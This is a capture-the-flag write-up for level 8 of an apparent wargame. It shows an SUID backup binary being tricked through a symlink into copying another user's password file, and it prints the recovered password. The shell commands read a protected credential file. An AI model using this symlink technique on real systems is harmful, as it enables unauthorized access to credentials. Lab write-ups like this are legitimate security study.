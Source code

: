 # Level 8

## Vulnerability

Binary backs up password via symlink

## Context

We find a binary ```level08``` and a directory ```backups``` containing ```.log```, all with owner ```level09``` and SUID.
```
level08@OverRide:~$ ls -l
...
drwxrwx---+ 1 level09 users    60 Oct 19  2016 backups
-rwsr-s---+ 1 level09 users 12975 Oct 19  2016 level08
level08@OverRide:~$ ls -la backups/
...
-rwxrwx---+ 1 level09 users     0 Oct 19  2016 .log
```

When run without arguments its prints ```Usage: ./level08 filename```.
```
level08@OverRide:~$ ./level08
Usage: ./level08 filename
```

When run with a file as argument it copies the file to the ```./backups/``` folder.
```
level08@OverRide:~$ chmod 777 .
level08@OverRide:~$ echo "oh hi" > hi
level08@OverRide:~$ ./level08 hi
level08@OverRide:~$ cat backups/hi
oh hi
```

It also creates a log of the backup
```
level08@OverRide:~$ cat backups/.log
LOG: Starting back up: hi
LOG: Finished back up hi
```

## Solution

Can we simply backup the password?
```
level08@OverRide:~$ ./level08 /home/users/level09/.pass
ERROR: Failed to open ./backups//home/users/level09/.pass
```

No, because it doesn't deal with files inside directories (concaternates filepath ```//```), it only works with files in the current directory.

So, in the home directory, lets create a symlink to ```/home/users/level09/.pass```. Now we can run the binary on the symlink, and it creates a backup of the password file in the ```backups/``` folder.
```
level08@OverRide:~$ ln -s /home/users/level09/.pass password
level08@OverRide:~$ ./level08 password
level08@OverRide:~$ cat backups/password
fjAwpJNs2vvkFLRebEvAQ2hFZ4uQBWfHRsP62d8S
```
